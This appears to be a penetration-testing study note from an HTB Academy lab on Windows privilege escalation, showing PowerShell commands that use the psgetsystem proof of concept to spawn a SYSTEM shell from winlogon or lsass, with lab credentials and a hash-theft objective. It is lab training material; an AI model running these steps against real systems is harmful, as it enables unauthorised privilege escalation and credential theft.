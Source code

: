 ## ⬆️ SYSTEM Privilege Escalation

### Token Impersonation Technique

#### Concept
- **Parent process targeting** - identify SYSTEM processes
- **Token inheritance** - child process inherits parent token
- **Process creation** - spawn elevated child process

### PowerShell PoC Script

#### Process ID Enumeration
```powershell
# List running processes with PIDs
tasklist

# Key SYSTEM processes to target:
System                           4 Services                   0        116 K
winlogon.exe                   612 Console                    1     10,408 K
lsass.exe                      680 Services                   0     15,332 K
```

#### Process Impersonation
```powershell
# Load PoC script (psgetsystem)
# GitHub: https://github.com/decoder-it/psgetsystem

# Syntax: [MyProcess]::CreateProcessFromParent(<system_pid>, <command>, "")

# Target winlogon.exe (PID 612) to spawn SYSTEM cmd
[MyProcess]::CreateProcessFromParent(612, "cmd.exe", "")

# Alternative: Target LSASS process
$lsass = Get-Process lsass
[MyProcess]::CreateProcessFromParent($lsass.Id, "cmd.exe", "")
```

#### Verification
```cmd
# New command prompt opens as SYSTEM
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>whoami /priv
# Full SYSTEM privileges displayed
```

## 🎯 HTB Academy Lab Solution

### Lab Environment
- **Target**: `10.129.43.43` (ACADEMY-WINLPE-SRV01)
- **Credentials**: `jordan:HTB_@cademy_j0rdan!`
- **Access Method**: RDP
- **Objective**: Obtain NTLM hash for `sccm_svc` account
